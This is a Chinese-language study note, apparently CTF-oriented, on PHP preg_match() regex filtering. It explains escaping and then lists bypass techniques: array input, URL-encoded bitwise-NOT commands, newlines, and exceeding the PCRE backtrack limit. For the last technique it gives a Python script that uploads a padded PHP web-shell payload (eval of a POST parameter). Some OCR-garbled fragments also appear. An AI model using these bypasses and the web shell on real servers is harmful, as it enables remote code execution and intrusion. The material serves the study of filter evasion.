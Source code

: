 preg_match() 函数可以返回 $pattern 的匹配次数，它的值将是 0 次（不匹配）或 1 次，因为 preg_match() 在第一次匹配后将会停止搜索。

###### 正则表达式

```
"/^\w+$/"

^ 表示开头，是转义字符，使用时在前面加""
$ 表示结束，是转义字符，使用时在前面加""
\w 任意一个字母或数字或下划线，也就是 AZ,az,0~9,_ 中任意一个
这段正则表达式的意思就是字符全部由【AZ,az,0~9,_ 】组成，肯定不能为空
```

```
关于两重转义
在正则表达式中要匹配一个反斜杠时，例如"\\\\",前后两个反斜杠在字符串中分别变成一个反斜杠，解释为两个反斜杠，再交由正则表达式解释为一个反斜杠，需要四个反斜杠。

字符串 ----> 正则表达式字符串参数 -----> 正则解析转移后的pattern
字符串:"\\." ----> 正则表达式形式:"\." ---> 正则引擎解析结果"\."(转义的.)  

字符串:"(\\)(\\)" ----> 正则表达式形式:"\\" ---> 正则引擎解析结果"\"(普通符号\)  

字符串:"(\\)(\\)|.php" ----> 正则表达式形式:"\\|.php" ---> 正则引擎解析结果pattern为"\"或".php"(普通符号\)  

字符串:"(\\)|.php" ----> 正则表达式形式:"\|.php" ---> 正则引擎解析结果"|.php"(普通符号\)  

形如\xnn为16进制(Hex)，\nnn为8进制(Oct)【n为一位数字】通符号)
```

**（1.数组绕过，即传入的参数为数组**

**（2.URL编码取反绕过（ ！该方法只适用于PHP7）**

先进行URL编码，后(~%XX%XX%XX%XX....)

```php
<?php
echo urlencode(~"ls");
?>
```

**（3.换行符绕过**`.`不会匹配换行符

**（4.PCRE回溯次数限制**

```python
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://127.0.01/index.php', files=files, allow_redirects=False)
print(res.headers)
```
